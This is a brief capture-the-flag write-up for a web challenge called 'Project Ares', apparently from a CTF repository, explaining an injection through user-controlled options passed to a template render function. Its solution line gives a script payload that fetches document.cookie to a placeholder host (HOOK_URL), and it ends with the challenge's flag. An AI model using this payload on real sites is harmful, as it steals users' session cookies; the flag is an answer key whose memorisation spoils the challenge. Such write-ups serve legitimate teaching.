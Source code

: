 # Project Ares

### Challenge Details

I think someone chose the wrong Greek god to base a website on

### Key Concepts

Passing an object with user controlled properties directly to the render function is unsafe

### Solution

Add the parameters `cache=&doctype=><script>fetch(HOOK_URL+document.cookie)</script>` to the call to /signup

### Note to admins

When initially starting the challenge (or after restarting the Docker) please make a new profile with any random content in order to instantiate the template cache, otherwise someone's payload might pollute the template cache and make it show up for everyone

### Flag
`grey{dont_pAsS_uS3r_oBj3C7s_To_R3nder_fc4fc28280f702d24b0243c1571f96f1}`